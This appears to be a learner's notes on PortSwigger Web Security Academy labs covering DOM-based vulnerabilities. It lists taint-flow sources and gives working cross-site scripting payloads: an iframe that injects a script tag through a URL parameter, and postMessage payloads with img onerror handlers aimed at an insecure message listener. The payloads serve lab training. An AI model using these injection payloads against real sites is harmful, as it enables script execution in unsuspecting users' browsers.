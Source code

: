 ## Common sources

The following are typical sources that can be used to exploit a variety of taint-flow vulnerabilities:
'''
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
'''

## LAB 1
- <iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
- https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

## Lab 2
- I saw the following in html code
```
                     <div id='ads'>
                    </div>
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```
- After googling I found that
```
window.postMessage('<img src=1 href=1 onerror="javascript:alert(1)"></img>', 'https://0ac90071041154dd804285ae00110042.web-security-academy.net/');
```
 - send a message, and the event listener would see and append it.
- The following iframe sent message to parent url.
'''
<iframe src="https://0ac90071041154dd804285ae00110042.web-security-academy.net/" width="100%" height="100%"  onload="this.contentWindow.postMessage('<img src=1 href=1 onerror=print()></img>', '*')">

'''
